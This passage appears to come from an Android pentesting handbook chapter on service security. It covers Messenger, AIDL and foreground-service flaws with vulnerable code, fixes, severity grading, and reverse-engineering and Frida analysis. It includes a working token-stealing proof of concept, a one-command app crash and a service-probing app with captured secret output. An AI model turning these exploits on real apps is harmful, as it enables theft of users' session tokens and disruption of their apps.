
**Vulnerable code.**

```java
private final Handler handler = new Handler(Looper.getMainLooper()) {
    @Override public void handleMessage(Message msg) {
        switch (msg.what) {
            case MSG_SET_PIN:   savePin(msg.getData().getString("pin")); break;
            case MSG_WIPE:      db.execSQL("DELETE FROM notes");         break;
            case MSG_GET_TOKEN: reply(msg.replyTo, tokenStore.get());    break;   // !!
        }
    }
};
```

**Why a competent developer wrote this.** `Messenger` is presented in tutorials as the *simple*
alternative to AIDL, and simple is read as safe. The `Message` object has no obvious place to put a
check, and `msg.sendingUid` is not mentioned in most of those tutorials at all.

**Two separate bugs here.** First, no identity check on a command dispatcher whose commands include
`MSG_WIPE`. Second — and more interesting — `MSG_GET_TOKEN` replies to `msg.replyTo`, **a `Messenger`
the caller supplied**. That is a Binder handle to an object of the attacker's choosing. Even a
service that correctly checks `sendingUid` and finds a trusted caller will happily send the token to
whatever `replyTo` names, and a trusted-but-buggy caller can be induced to pass an attacker's
`Messenger` through.

**Static detection.**

```bash
grep -rn "new Messenger(" out/sources/
grep -rn "sendingUid" out/sources/          # if this returns nothing, no message is authorised
grep -rn "replyTo" out/sources/             # every hit needs a look
```

**Dynamic detection.** Hook `Handler.dispatchMessage` and print `msg.what`, `msg.sendingUid` and
whether `msg.replyTo` is non-null. [`scripts/trace-service-lifecycle.js`](scripts/trace-service-lifecycle.js)
does this.

**Exploit.**

```java
// Attacker: bind, then send a command with our own Messenger as the reply channel
Messenger target = new Messenger(binder);
Messenger mine   = new Messenger(new Handler(Looper.getMainLooper()) {
    @Override public void handleMessage(Message m) {
        Log.i("poc", "victim replied: " + m.getData().getString("token"));
    }
});
Message m = Message.obtain(null, MSG_GET_TOKEN);
m.replyTo = mine;
target.send(m);
```

**Secure fix.**

```java
@Override public void handleMessage(Message msg) {
    if (!isTrusted(msg.sendingUid)) {                 // framework-populated, kernel-derived
        Log.w(TAG, "rejecting what=" + msg.what + " from uid=" + msg.sendingUid);
        return;
    }
    switch (msg.what) {
        case MSG_GET_TOKEN:
            // Do NOT reply to an arbitrary Messenger. Reply only to a channel
            // the trusted caller registered through an authenticated path,
            // or return the data through a bound AIDL method with a return value.
            replyToRegisteredChannel(msg.sendingUid, tokenStore.get());
            break;
    }
}

private boolean isTrusted(int uid) {
    if (uid == Process.myUid()) return true;
    return getPackageManager().checkSignatures(Process.myUid(), uid)
            == PackageManager.SIGNATURE_MATCH;
}
```

**Honest severity.** High to Critical where a command mutates state or returns a secret; the
`replyTo` half raises it, because it survives an otherwise-correct UID check. Note in the report that
this is the one place where AIDL is *safer by default* than `Messenger`, because an AIDL method's
return value goes back on the transaction that made the call and cannot be redirected.

#### 5.3.5 The confused deputy: a service that acts on request with its own privileges

**Vulnerable code.**

```java
@Override public void exportReport(String destPath) {
    // The service holds WRITE_EXTERNAL_STORAGE and its own data directory.
    long id = Binder.clearCallingIdentity();          // "so the write succeeds"
    try {
        Files.copy(new File(getFilesDir(), "report.pdf").toPath(),
                   new File(destPath).toPath());      // destPath is attacker-controlled
    } finally {
        Binder.restoreCallingIdentity(id);
    }
}
```

**Why a competent developer wrote this.** They hit a `SecurityException`, searched for it, found
`clearCallingIdentity()`, and it made the exception go away. The mechanism is genuinely necessary in
places; [25 §3.12](../25-Binder/README.md) owns it in full and is the reference for why the window
must be narrow.

**The service-specific twist** is that a bound service is a *standing* offer to act. A confused deputy
in a one-shot `Intent` handler acts once; a bound service acts as often as the attacker calls it, at
whatever rate they like, for as long as they hold the binding.

**Detection, exploit and fix** follow 25's treatment. The service-level version of the fix:

```java
@Override public void exportReport(String destPath) {
    final int callerUid = Binder.getCallingUid();
    enforceSameSignature(callerUid);

    // 1. The destination is NOT a path the caller names. Take a ParcelFileDescriptor
    //    the CALLER opened, so the caller's own permissions decide where it lands.
    // 2. If a path really must be accepted, canonicalise and confine it, and do the
    //    permission check as the CALLER, not with identity cleared.
    throw new UnsupportedOperationException("use exportReportTo(ParcelFileDescriptor)");
}

@Override public void exportReportTo(ParcelFileDescriptor out) {
    enforceSameSignature(Binder.getCallingUid());
    try (FileOutputStream os = new FileOutputStream(out.getFileDescriptor());
         FileInputStream in = new FileInputStream(new File(getFilesDir(), "report.pdf"))) {
        copy(in, os);
    } catch (IOException e) { throw new IllegalStateException(e); }
}
```

Taking a `ParcelFileDescriptor` from the caller is the general answer to this whole class: the file
was opened **by the caller, with the caller's permissions**, so there is no privilege to confuse. See
[25 §3.7.4](../25-Binder/README.md) for how descriptors travel over Binder.

**Honest severity.** High where the deputy writes attacker-chosen paths or reads privileged data;
Medium where it merely performs a benign action the caller could have performed itself.

#### 5.3.6 `startForegroundService` promotion-deadline denial of service

**Vulnerable code.** Not code so much as a shape: an exported, startable service whose
`onStartCommand` calls `startForeground()` only on some paths.

```java
@Override public int onStartCommand(Intent i, int f, int id) {
    if (i != null && i.hasExtra("job")) {
        startForeground(1, buildNotification());     // promoted only when "job" is present
        doJob(i.getStringExtra("job"));
    }
    return START_NOT_STICKY;                          // otherwise: never promoted
}
```

**The failure.** If a caller invokes `startForegroundService()` on this component without the `job`
extra, `startForeground()` is never called. Five seconds later `system_server` kills the app with a
`ForegroundServiceDidNotStartInTimeException` — a deliberate, documented crash. On the attacker's
side that is a one-line remote crash of the victim app, repeatable.

**Preconditions, stated honestly.** The service must be exported and startable by the attacker, and
the attacker must be able to call `startForegroundService` (from API 31 this is itself restricted for
background apps, so the attacker generally needs to be foreground or exempt). Both are common enough
to be worth testing; neither is universal.

**Detection.**

```bash
# adb shell -- try it, then watch
am start-foreground-service -n com.example.target/.SyncService
logcat -d | grep -iE "did not start in time|ForegroundServiceDidNotStartInTime|ANR in com.example.target"
```

**Secure fix.** Promote unconditionally and immediately, then decide whether there is work:

```java
@Override public int onStartCommand(Intent i, int f, int id) {
    startForeground(1, buildNotification());     // FIRST LINE. Always. No branches above it.
    if (i == null || !i.hasExtra("job")) { stopSelf(id); return START_NOT_STICKY; }
    doJob(i.getStringExtra("job"));
    return START_NOT_STICKY;
}
```

**Honest severity.** Low to Medium. It is a crash, not a compromise, and the app restarts. Report it
as availability, and do not inflate it. It earns its place in a report mostly because it is
*provable in one command*, which makes it useful for establishing that the exported surface is real.

#### 5.3.7 Exported service as an intent-redirection sink

A started service that takes an `Intent` (or the parts of one) out of its own incoming Intent and
then acts on it is the service-shaped version of the redirection class that
[26 — Intent](../26-Intent/README.md) owns in full.

```java
// VULNERABLE
@Override public int onStartCommand(Intent i, int f, int id) {
    Intent inner = i.getParcelableExtra("forward");
    startActivity(inner);            // runs with the SERVICE's app identity
    return START_NOT_STICKY;
}
```

The attacker supplies an `inner` Intent naming a component that only the victim app may reach — one
of its own non-exported Activities, or a `content://` URI it holds a grant for. 26 covers detection,
the `FLAG_GRANT_*` laundering variant, and the fix (validate the component against an allow-list, or
refuse `Parcelable` Intents entirely). It is listed here only so the shape is recognisable when the
sink happens to be a service, which is where testers most often miss it, because the service has no
UI and the redirection is invisible.

#### 5.3.8 Accessibility and the system-bound service families

Covered as a mechanism in §3.13 and §3.14. As a *finding*, it splits in two and the split matters:

**For an app you are testing (the defender's side).** The finding is not "accessibility exists". It
is any of: sensitive views not marked `importantForAccessibility="noHideDescendants"`; a login flow
that is fully readable from the accessibility tree; no server-side anomaly detection for
transactions that could have been driven on-device; or — genuinely serious — an app that *itself*
declares an accessibility service with `canRetrieveWindowContent` for a purpose that does not need
it. That last one is a supply-chain question: every app the user installs that holds accessibility
is a full-device keylogger waiting for a compromised update.

**For malware analysis.** The finding is the manifest line plus the `res/xml` config plus the
enabling pretext, and the analysis writes up the *capability set* the config requests. §6.3 shows
what it looks like in a decompiled APK.

### 5.4 OWASP MASVS / MASTG mapping

| Identifier | How this chapter applies |
|---|---|
| **MASVS-PLATFORM-1** — IPC mechanisms are used securely | The core control. Is the service exported, is the permission effective, is there a per-method `getCallingUid()` check |
| **MASVS-PLATFORM-3** — the app does not expose sensitive functionality through unprotected UI/IPC | §5.3.1, §5.3.4 |
| **MASVS-CODE-4** — external input is validated | A `Parcel` and a `Bundle` are external input. Every AIDL argument and every `msg.getData()` value |
| **MASVS-AUTH-1** — authentication cannot be bypassed client-side | A package name in an Intent extra is a claim; `Binder.getCallingUid()` is authentication |
| **MASVS-STORAGE-2** — no sensitive data leaked to other apps | An exported service returning a token is a storage leak with extra steps |
| **MASTG** — the platform-interaction / IPC testing chapter | The manual methodology §7 expands on |

### 5.5 How malware abuses services

| Technique | Mechanism |
|---|---|
| Persistence | A foreground service with a low-importance notification channel and an innocuous title. Fully supported API, indistinguishable at the platform level from a music player |
| Screen reading and UI automation | An `AccessibilityService`, §3.13 |
| Notification and OTP interception | `NotificationListenerService`, which sees every notification body including one-time codes |
| Keystroke capture | `InputMethodService` — the app *is* the keyboard |
| Command and control | A bound service in a "helper" APK, so the payload logic is in a package the dropper installs separately |
| Restart after kill | `START_STICKY` plus a `JobService` plus a boot receiver — three redundant restart paths |
| Anti-analysis | Work is done in a `:remote` process so that killing the main process leaves the service running, and so that a debugger attached to the main process sees nothing |

### 5.6 How forensic analysts investigate services

`dumpsys activity services` is a timeline. On the test device it retained, per service,
`createTime`, `lastActivity`, `restartTime`, `restartCount`, `crashCount`, `startForegroundCount`
and `callerPackage`. That gives you: when the service first ran, how often it has been restarted,
whether it has ever been in the foreground, and **which package started it** — which is often the
single most useful field, because it names the dropper.

```bash
# adb shell -- the forensic pull, no root needed
dumpsys activity services > services.txt
dumpsys activity processes > processes.txt      # oom_adj bands, which shows what was propped up
dumpsys jobscheduler > jobs.txt                 # scheduled work, with constraints and owners
dumpsys accessibility > a11y.txt                # bound accessibility services and their capabilities
settings get secure enabled_accessibility_services
settings get secure enabled_notification_listeners
```

The last two are the highest-yield single commands in a suspected-fraud triage. They are a plain list
of the packages the user was persuaded to grant screen-reading and notification-reading to, and on a
clean device — like the one used here — they read `null` and `0`.

### 5.7 How to grade a service finding — the rubric

Use this in a report, in this order. The first row that yields "nothing" ends the finding.

| Question | If the answer is "no" |
|---|---|
| Can an unprivileged app **bind** (`onServiceConnected` fires)? | Not a finding. Say why: not exported, `signature` permission, or `onBind` returns null for your Intent |
| Does the returned binder expose **methods** (non-empty descriptor, or a hand-written `onTransact`)? | Not a finding. A null-returning or inert binder is a dead end |
| Does **any** method do something the caller could not do itself? | Not a finding — this is where "exported" stops being interesting |
| Does that method **lack** a `getCallingUid` / `checkSignatures` / permission check? | Not a finding; the check is the control |
| Can you **demonstrate** the effect — data returned, state changed, action taken? | Not yet a finding. Go and demonstrate it |

Only when all five are "yes" do you have a finding, and its severity is the severity of the effect
you demonstrated — not of the export.

---
## 6. Reverse Engineering Perspective

### 6.1 What a service looks like in the APK on disk

Start with the manifest, because it is the only place a service is *declared*
and the declaration cannot be obfuscated away — the framework has to be able to
find the class by name.

```bash
# host
apktool d target.apk -o out/ -f
sed -n '/<service/,/<\/service>/p' out/AndroidManifest.xml

# or without unpacking, from the binary manifest
aapt dump xmltree target.apk AndroidManifest.xml | grep -A12 "E: service"
```

```bash
# host -- the fastest possible triage: every service, with its export state
aapt2 dump xmltree --file AndroidManifest.xml target.apk \
  | grep -E "E: service|A: android:name|A: android:exported|A: android:permission|A: android:process|A: android:foregroundServiceType"
```

> **⚠️ Warning**
> `apktool`'s XML output is a *reconstruction*. If `android:exported` is absent
> from the reconstructed XML, that does not mean it was absent from the original
> — it means the reconstruction did not emit it, or the original relied on the
> default. Confirm the effective value on a device with
> `pm query-services -n pkg/cls`, which prints the value the platform actually
> computed. [32 — Manifest](../32-Manifest/README.md) owns this distinction in
> full.

### 6.2 Recognising a service in JADX

Three shapes, and you can tell them apart in five seconds.

**A local binder.**

```java
public class SyncService extends Service {
    private final IBinder binder = new LocalBinder();
    public class LocalBinder extends Binder {
        public SyncService getService() { return SyncService.this; }
    }
    @Override public IBinder onBind(Intent intent) { return this.binder; }
}
```

The tell is `extends Binder` with no `onTransact` override and no `DESCRIPTOR`
field. Nothing here is reachable across a process boundary except by raw
`transact()` against `Binder`'s default `onTransact`, which handles only the
framework's own codes.

**A `Messenger`.**

```java
public class CmdService extends Service {
    final Messenger messenger = new Messenger(new IncomingHandler());
    @Override public IBinder onBind(Intent intent) {
        return this.messenger.getBinder();
    }
    static class IncomingHandler extends Handler {
        @Override public void handleMessage(Message message) {
            switch (message.what) {
                case 1: ...
```

The tells are `new Messenger(` and a `switch` on `message.what`. **The command
set is that switch**, and the integers are the protocol. Copy them out; they are
your entire API documentation.

**AIDL.** The generated code is unmistakable because the AIDL compiler always
emits the same three things, and [25 §6.1](../25-Binder/README.md) walks the
anatomy. In a service context, what you are looking for is:

```java
public class VaultService extends Service {
    private final IVaultService.Stub binder = new IVaultService.Stub() {
        @Override public String getAuthToken() { ... }
        @Override public void setSyncEndpoint(String str) { ... }
        @Override public boolean isUnlocked() { ... }
    };
    @Override public IBinder onBind(Intent intent) { return this.binder; }
}
```

and, in the generated interface file:

```java
public interface IVaultService extends IInterface {
    public static abstract class Stub extends Binder implements IVaultService {
        private static final String DESCRIPTOR = "com.example.notesvault.IVaultService";
        static final int TRANSACTION_getAuthToken = 1;
        static final int TRANSACTION_setSyncEndpoint = 2;
        static final int TRANSACTION_isUnlocked = 3;
        ...
        @Override public boolean onTransact(int code, Parcel data, Parcel reply, int flags) {
            if (code != INTERFACE_TRANSACTION) {
                data.enforceInterface(DESCRIPTOR);
            }
            switch (code) {
                case 1: reply.writeNoException(); reply.writeString(getAuthToken()); return true;
```

> **🔍 Pentester's Note**
> **Reconstruct the `.aidl` from the `Stub` and you have the whole remote API.**
> The `TRANSACTION_*` constants give you name-to-code; the `case` bodies give
> you the parcel layout (`readString`, `readInt`, `readTypedObject`) in exactly
> the order you must write them. That is more information than the developer's
> own documentation usually contains. And on a live device you do not even need
> the APK for the first half of it — the descriptor comes off the binder for
> free, measured in §5.2.

**Where the Binder object really is.** The measured Frida trace in
[`examples/measured-frida-trace.txt`](examples/measured-frida-trace.txt) shows
transactions landing on `com.example.notesvault.VaultService$1`, not on
`VaultService`. The `$1` is the anonymous `IVaultService.Stub` instance. When
you are looking for the class that actually handles calls, look for the inner
class, not the `Service`.

### 6.3 An accessibility service in a decompiled APK

Three artefacts, all of which must be present, and none of which can be
obfuscated meaningfully:

```xml
<!-- 1. AndroidManifest.xml -->
<service android:name="com.evil.a.b.c"
         android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"
         android:exported="true">
    <intent-filter>
        <action android:name="android.accessibilityservice.AccessibilityService"/>
    </intent-filter>
    <meta-data android:name="android.accessibilityservice"
               android:resource="@xml/aserv"/>
</service>
```

```xml
<!-- 2. res/xml/aserv.xml -- the capability request, in plain text -->
<accessibility-service
    android:accessibilityEventTypes="typeAllMask"
    android:accessibilityFlags="flagReportViewIds|flagRetrieveInteractiveWindows"
    android:canRetrieveWindowContent="true"
    android:canPerformGestures="true"
    android:notificationTimeout="0"/>
```

```java
// 3. the class -- name obfuscated, superclass and overrides are not
public class c extends AccessibilityService {
    @Override public void onAccessibilityEvent(AccessibilityEvent ev) { ... }
    @Override public void onInterrupt() { }
}
```

The class name can be `c`. `extends AccessibilityService`, the manifest action
string, and the XML attribute names cannot be, because the framework resolves
all three by literal name. That is why this is one of the easiest high-signal
things to grep for in a suspected malware sample:

```bash
# host
grep -rn "canPerformGestures\|canRetrieveWindowContent\|typeAllMask" out/res/xml/
grep -rn "android.accessibilityservice.AccessibilityService" out/AndroidManifest.xml
```

`android:canPerformGestures="true"` on a service that is not plausibly an
assistive technology is the single highest-signal line in a malware manifest.

### 6.4 Smali

The `Stub` dispatch, as `apktool` produces it. This is what you read when JADX
fails, and it is worth being able to read directly because the transaction codes
are literal constants.

```smali
# out/smali/com/example/notesvault/IVaultService$Stub.smali
.method public onTransact(ILandroid/os/Parcel;Landroid/os/Parcel;I)Z
    .locals 3
    .param p1, "code"    # I
    .param p2, "data"    # Landroid/os/Parcel;
    .param p3, "reply"   # Landroid/os/Parcel;

    const-string v0, "com.example.notesvault.IVaultService"    # <- THE DESCRIPTOR

    sparse-switch p1, :sswitch_data_0

    :sswitch_1                                                  # code 1
    invoke-virtual {p2, v0}, Landroid/os/Parcel;->enforceInterface(Ljava/lang/String;)V
    invoke-virtual {p0}, Lcom/example/notesvault/IVaultService$Stub;->getAuthToken()Ljava/lang/String;
    move-result-object v1
    invoke-virtual {p3}, Landroid/os/Parcel;->writeNoException()V
    invoke-virtual {p3, v1}, Landroid/os/Parcel;->writeString(Ljava/lang/String;)V
    const/4 v2, 0x1
    return v2

    :sswitch_data_0
    .sparse-switch
        0x1 -> :sswitch_1                                       # getAuthToken
        0x2 -> :sswitch_2                                       # setSyncEndpoint
        0x3 -> :sswitch_3                                       # isUnlocked
        0x5f4e5446 -> :sswitch_0                                # '_NTF' = INTERFACE_TRANSACTION
    .end sparse-switch
.end method
```

Three things to lift from that listing every time:

1. **The `const-string` immediately before the switch is the interface
   descriptor.** It is a plain UTF-8 string in the DEX string pool and survives
   every obfuscator, because `enforceInterface` compares it against what the
   client wrote.
2. **The `.sparse-switch` table is the complete list of live transaction
   codes.** Any code not in it falls through to `super.onTransact`.
3. `0x5f4e5446` is `'_NTF'`, `INTERFACE_TRANSACTION`. Seeing it confirms the
   object answers the descriptor query — which is the first thing an attacker
   asks it, as the measured trace shows.

The service declaration itself, for completeness:

```smali
# out/smali/com/example/notesvault/VaultService.smali
.class public Lcom/example/notesvault/VaultService;
.super Landroid/app/Service;

.method public onBind(Landroid/content/Intent;)Landroid/os/IBinder;
    .locals 1
    iget-object v0, p0, Lcom/example/notesvault/VaultService;->binder:Lcom/example/notesvault/IVaultService$Stub;
    return-object v0
.end method
```

`.super Landroid/app/Service;` is the signal. Grep for it to enumerate every
service class in a DEX regardless of naming:

```bash
# host
grep -rl "^\.super Landroid/app/Service;" out/smali*/ | wc -l
grep -rl "^\.super Landroid/accessibilityservice/AccessibilityService;" out/smali*/
grep -rl "^\.super Landroid/service/notification/NotificationListenerService;" out/smali*/
```

### 6.5 Native services

A service implemented with a hand-written native `BBinder` never enters the Java
Binder path at all. The Java side is a thin shell whose `onBind` returns a
binder obtained from JNI:

```java
public class NativeService extends Service {
    static { System.loadLibrary("engine"); }
    private native IBinder nativeGetBinder();
    @Override public IBinder onBind(Intent i) { return nativeGetBinder(); }
}
```

The tells: `System.loadLibrary`, a `native` method returning `IBinder`, and
nothing resembling a `Stub` anywhere in the DEX. The transaction codes live in
the `.so`, in a `switch` inside `onTransact`, and the descriptor string is in
`.rodata`:

```bash
# host
llvm-strings -a lib/arm64-v8a/libengine.so | grep -E "^[a-z]+(\.[a-zA-Z]+)+$" | head
llvm-nm -DC lib/arm64-v8a/libengine.so | grep -i "onTransact\|BBinder"
```

[25 §6.4](../25-Binder/README.md) owns the reversing of a native `onTransact`,
and [57 — Ghidra](../57-Ghidra/README.md) owns the tooling. Note the consequence
for §7: `scripts/trace-service-lifecycle.js` will show you `onBind` and nothing
else for such a service, because there is no Java `execTransact` to hook. Its
header says so.

### 6.6 What obfuscation does — and does not do

| Element | Survives R8/ProGuard? | Why |
|---|---|---|
| Service class name | **Yes, always** | The manifest names it and the framework resolves it by string. R8 keeps and does not rename manifest-referenced components |
| `onBind`, `onStartCommand` | **Yes** | Framework overrides; renaming them would break dispatch |
| AIDL interface descriptor string | **Yes** | It is a literal compared at runtime by `enforceInterface` |
| Transaction code constants | **Yes** | They are the wire format |
| Your AIDL *method* names | Usually yes | The generated `Stub` is normally kept; even if the Java names were renamed, the codes and parcel layout are unchanged, which is all an attacker needs |
| `Messenger` `what` constants | **Yes** | Literal integers in a switch |
| Internal helper method names | No | Renamed freely |
| String contents (with string encryption) | Sometimes not | But the descriptor is compared by the framework, so it must be recoverable at runtime — hook `enforceInterface` and read it |

The summary a report can use: **obfuscation does not protect a service's remote
API at all.** It hides the implementation, not the interface, and the interface
is the attack surface. See [40 — Obfuscation](../40-Obfuscation/README.md).

---

## 7. Dynamic Analysis

### 7.1 The zero-tooling pass

Everything here runs from `adb shell` on an unrooted device.

```bash
# adb shell -- what services exist and what state they are in
dumpsys activity services                  # every running service, with ServiceRecord fields
dumpsys activity services com.example.app  # just one package
dumpsys activity processes                 # oom_adj bands: what is being propped up
dumpsys jobscheduler                       # scheduled work, constraints, owners
dumpsys accessibility                      # bound accessibility services
```

```bash
# adb shell -- what services could be reached, and by whom
dumpsys package r | sed -n '/Service Resolver Table:/,/Provider Resolver Table:/p'
pm query-services -a android.accessibilityservice.AccessibilityService
pm query-services -n com.example.app/.SyncService      # explicit component, no filter needed
pm list permissions -f -g | grep -A4 "permission:com.example.permission.SYNC"
```

```bash
# adb shell -- drive a started service
am start-service          -n com.example.app/.SyncService --es job "x"
am start-foreground-service -n com.example.app/.SyncService
am stop-service           -n com.example.app/.SyncService
```

> **⚠️ Warning — measured**
> `am start-service` from `adb shell` on API 30 frequently fails with
> `Error: app is in background uid UidRecord{...}`. That is the **API 26
> background-start restriction**, applied to the shell's request on behalf of a
> backgrounded target — not a permission failure and not evidence the service is
> protected. Bring the target app to the foreground first, or use
> `am start-foreground-service`, or bind instead. Misreading this as "the
> service is not reachable" is a false negative you will not notice.

**There is no `am bind-service`.** Binding requires a real `ServiceConnection`,
which requires an app. That is why §7.3 exists.

### 7.2 `scripts/service-recon.py` — the whole device, ranked

```bash
# host
python3 scripts/service-recon.py                # everything, sorted worst-first
python3 scripts/service-recon.py --open         # exported, no permission
python3 scripts/service-recon.py --weak         # plus normal/dangerous/undeclared permissions
python3 scripts/service-recon.py --package com.example.app
python3 scripts/service-recon.py --explain com.example.app/.SyncService
python3 scripts/service-recon.py --capture ./snap    # then --fixture ./snap, offline
```

It joins the Service Resolver Table, `pm query-services` and `pm list
permissions -f -g`, and gives each service a verdict — `OPEN`, `WEAK-PERM`,
`DANGEROUS`, `SIGNATURE`, `SYSTEM-BIND`, `NOT-EXPORTED`, `DISABLED`. Measured on
the test device:

```text
SUMMARY
  services seen via an intent action : 839
  OPEN                              : 325
  WEAK-PERM                         : 16
  DANGEROUS                         : 1
  UNKNOWN-PERM                      : 2
  SIGNATURE                         : 108
  SYSTEM-BIND                       : 76
  NOT-EXPORTED                      : 287
  DISABLED                          : 24
  distinct packages with an OPEN one : 94
```

The full capture, including the whole `WEAK-PERM` set, is in
[`examples/measured-service-recon.txt`](examples/measured-service-recon.txt).

> **🔍 Pentester's Note**
> 325 open services on a stock consumer phone is not 325 vulnerabilities, and a
> report that implies it is will be dismissed. It is a work queue. The 16
> `WEAK-PERM` rows are worth far more of your time than the 325 `OPEN` ones,
> because in every one of them a developer wrote a permission that does not
> work — which is a *specific*, *actionable*, *one-word-fix* finding. Five of
> those sixteen were guarded by `android.permission.INTERNET`.

### 7.3 Binding from a real, unprivileged app

This is the step nothing else substitutes for, and it is the step the
`INSTALL_FAILED_USER_RESTRICTED` note in §7.6 is about.

[`examples/attacker-app/`](examples/attacker-app/ProbeActivity.java) is a
complete, minimal prober: an exported Activity that takes a list of components,
binds each one, waits, and reports what happened. Build and run it with:

```bash
# host -- see examples/attacker-app/build.sh for the full command
sh examples/attacker-app/build.sh
adb install -r out/probe.apk

adb logcat -c
adb shell am start -n com.pentest.ch28probe/.ProbeActivity \
    --es targets 'com.example.target/.VaultService,com.android.keychain/com.android.keychain.KeyChainService'
adb logcat -d -s CH28
```

What it reports, per target:

- the `bindService` return value **and** any `SecurityException`,
- whether `onServiceConnected` ever fired,
- the interface descriptor from `getInterfaceDescriptor()`,
- `pingBinder()`, `isBinderAlive()`, and whether `queryLocalInterface` returns
  non-null (which would mean same-process),
- the result of an empty-parcel `transact()` at codes 1–3, with the exception
  decoded from the reply,
- optionally, a token-correct `transact()` — write the descriptor, then call.

Measured, against the vulnerable example service:

```text
CH28: probe uid=10291 pid=19831
CH28: BIND-RETURN com.example.notesvault/com.example.notesvault.VaultService => true
CH28: CONNECTED ... descriptor='com.example.notesvault.IVaultService' alive=true ping=true local=false
CH28:   TX code=1 ok=true replyBytes=100
        exception=java.lang.SecurityException: Binder invocation to an incorrect interface
CH28:   TOKEN-TX code=1 ok=true replyBytes=92 exception=(none)
        string='eyJhbGciOiJIUzI1NiJ9.SECRET-SESSION-TOKEN'
```

> **⚠️ Warning**
> Give the prober `QUERY_ALL_PACKAGES` or a `<queries>` block. Without it, on
> API 30+, `bindService` returns `false` for most third-party targets with no
> exception and no log, and you will record a false negative. This was measured
> as a controlled experiment in §3.6.1: the same bind, the same target, one
> manifest line apart, `false` then `true`.

### 7.4 Forcing the restart path

`START_STICKY` behaviour only shows up after a kill, so cause one:

```bash
# adb shell -- kill the process, leave the service record
am kill com.example.app                     # background-kill; the record survives
# or, harder:
kill -9 $(pidof com.example.app)

# then watch it come back, with a null Intent
logcat -c ; logcat | grep -iE "onStartCommand|Scheduling restart|ServiceRecord"
```

`dumpsys activity services` shows `restartCount` and `nextRestartTime` climbing.
If the app crashes with a `NullPointerException` in `onStartCommand` on the way
back, you have demonstrated the `START_STICKY` null-Intent bug from §3.2 in one
command.

> **🔍 Pentester's Note — measured, and it will waste your afternoon**
> On the MIUI test device, the restart was **refused by the vendor**, not by
> AOSP:
>
> ```text
> I ActivityManager: Process com.example.notesvault (pid 25428) has died: fg  SVC
> I AutoStartManagerService: MIUILOG- Reject RestartService packageName :com.example.notesvault uid : 10310
> ```
>
> `AutoStartManagerService` is a Xiaomi component with no AOSP equivalent. On
> this device a `START_STICKY` service simply does not come back unless the app
> is on the vendor's autostart allow-list. Any lab step that depends on sticky
> restart has to account for this, and any *finding* that depends on it must say
> which device it was measured on. This is the clearest example in the chapter
> of why "documented" and "measured" are tracked separately.

### 7.5 Frida

[`scripts/trace-service-lifecycle.js`](scripts/trace-service-lifecycle.js)
prints every lifecycle callback and every Binder transaction with the caller UID
at each.

```bash
# host -- ALWAYS pass --runtime=v8; see the script header for why
frida -U -n com.example.target -l scripts/trace-service-lifecycle.js --runtime=v8

# a service in android:process=":remote" is a different pid
adb shell ps -A | grep com.example.target
frida -U -p 27413 -l scripts/trace-service-lifecycle.js --runtime=v8
```

The measured output, and the two lines that are the entire point of it:

```text
[LIFECYCLE] onBind        uid=10310  pid=27413  (SELF -- no transaction in flight,
                                                 a check here does NOTHING)
[BINDER]    execTransact  uid=10291  pid=27858  (com.pentest.ch28probe)  code=1598968902
[BINDER]    execTransact  uid=10291  pid=27858  (com.pentest.ch28probe)  code=1
```

Full capture and annotation:
[`examples/measured-frida-trace.txt`](examples/measured-frida-trace.txt).

**To see the arguments**, hook the AIDL method by name rather than
`execTransact` — the method signature gives you typed parameters and reading
them costs nothing, whereas reading the incoming `Parcel` in `onTransact` moves
the cursor and breaks the dispatch that follows:

```javascript
// frida -U -n com.example.target -l vault-args.js --runtime=v8
Java.perform(function () {
    var Binder = Java.use('android.os.Binder');
    // The Stub instance is almost always an anonymous inner class.
    var Stub = Java.use('com.example.notesvault.VaultService$1');
    Stub.setSyncEndpoint.implementation = function (url) {
        console.log('[!] setSyncEndpoint("' + url + '") from uid '
                    + Binder.getCallingUid());
        return this.setSyncEndpoint(url);
    };
});
```

**To prove a check is absent**, hook it and watch it never fire:

```javascript
// frida -U -n com.example.target -l no-check.js --runtime=v8
Java.perform(function () {
    var PM = Java.use('android.content.pm.PackageManager');
    // If this never prints while you are driving the service, the service is
    // not checking signatures at all.
    PM.checkSignatures.overload('int', 'int').implementation = function (a, b) {
        var r = this.checkSignatures(a, b);
        console.log('[check] checkSignatures(' + a + ',' + b + ') = ' + r);
        return r;
    };
});
```

Negative evidence needs care in a report: "the hook never fired" is only
meaningful if you show the hook firing in a case where the check *is* present.
Run it against the fixed example service to establish that baseline, then
against the vulnerable one.

### 7.6 What could not be executed here, and why

**The test device refuses ordinary `adb install`.**

```text
$ adb install ./probe.apk
Performing Streamed Install
adb: failed to install ./probe.apk:
     Failure [INSTALL_FAILED_USER_RESTRICTED: Install canceled by user]
```

This is a MIUI restriction ("Install via USB"), not a defect in the APK and not
an Android behaviour. Two things were established about it here rather than
assumed:

- It gates **new** packages. Installing an *update* to an already-present
  package went through without complaint.
- It is bypassed by installing as root: `adb shell "su -c 'pm install -r -t
  /data/local/tmp/probe.apk'"` succeeded, which is how every measurement in this
  chapter that required an attacker app was obtained. The **outer** quotes are
  load-bearing — written without them, `adb shell` hands the device
  `su -c pm install -r -t ...`, `su -c` runs only `pm`, and you get a usage
  dump rather than an install. On an unrooted device with
  this restriction, enable "Install via USB" in Developer options — which on
  MIUI requires being signed in to a Mi account — or use a different device.

Consequently: **every result in this chapter that involved binding came from a
rooted device.** Root was used only to *install* the test apps. The apps
themselves ran as ordinary unprivileged apps at uid 10291 and 10310, with no
root, no special permissions, and no ADB involvement in the attack path itself.
That distinction matters for how the results should be quoted.

### 7.7 Other tooling

| Tool | Use |
|---|---|
| **Drozer** | `app.service.info -a com.example.app` lists services with permissions; `app.service.start` drives started services. It runs as a real app, so it sees the same package-visibility rules your attacker app does |
| **Objection** | `android hooking list services` is convenient; it is a wrapper over the same Frida primitives |
| **MobSF** | Flags exported services from the manifest. Treat every one as a lead; MobSF cannot bind, so it cannot tell you what the service does |
| **`logcat`** | The single most underrated tool here. `ActivityManager` logs service starts, binds, deaths and background-start refusals with the calling package |
| **`strace`** | Confirms *that* an `ioctl` on `/dev/binder` happened, never *what*. [25 §7.4](../25-Binder/README.md) |
| **Android Studio profiler** | Shows service lifetime and process priority visually; useful for demonstrating persistence to a non-technical audience |

---

## 8. Static Analysis

### 8.1 The manifest, read properly

```bash
# host -- every service, with the four attributes that decide reachability
python3 - <<'PY'
import re, sys
x = open('out/AndroidManifest.xml', encoding='utf-8').read()
for m in re.finditer(r'<service\b[^>]*>|<service\b[^>]*/>', x):
    s = m.group(0)
    name = re.search(r'android:name="([^"]+)"', s)
